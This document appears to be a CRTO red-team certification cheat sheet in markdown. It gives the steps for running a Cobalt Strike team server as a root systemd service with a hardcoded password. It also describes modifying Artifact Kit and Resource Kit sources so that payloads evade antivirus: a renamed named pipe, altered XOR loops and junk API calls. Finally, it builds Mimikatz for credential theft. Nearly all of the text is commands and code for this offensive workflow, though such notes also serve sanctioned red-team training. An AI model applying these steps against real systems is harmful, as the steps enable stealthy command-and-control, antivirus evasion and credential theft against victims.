 # CRTO Cheat Sheet
## Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
`[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target`

`sudo systemctl daemon-reload`
`sudo systemctl status teamserver.service`
`sudo systemctl start teamserver.service`
`sudo systemctl enable teamserver.service`

## Change sprinf in bypass-pipe.c line 130 and remove comments before
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

## Change for loop body line 45
`for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}`

## Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`
### Edit template.x64.ps1
`for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}`
### Build resource kit again
`./build.sh /mnt/c/Tools/cobaltstrike/resource`

## Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`